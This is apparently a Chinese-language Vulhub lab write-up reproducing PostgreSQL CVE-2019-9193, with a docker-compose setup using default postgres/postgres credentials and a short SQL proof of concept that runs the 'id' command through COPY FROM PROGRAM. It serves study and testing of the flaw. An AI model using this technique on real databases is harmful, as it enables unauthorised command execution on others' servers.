

PostgreSQL 高权限命令执行漏洞 CVE-2019-9193¶
漏洞描述¶
PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。
参考链接：
环境搭建¶
Vulhub启动存在漏洞的环境：
docker-compose up -d
环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。
漏洞复现¶
连接数据库：
psql --host your-ip --username postgres
首先连接到postgres中，并执行参考链接中的POC：
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
FROM PROGRAM语句将执行命令id并将结果保存在cmd_exec表中：
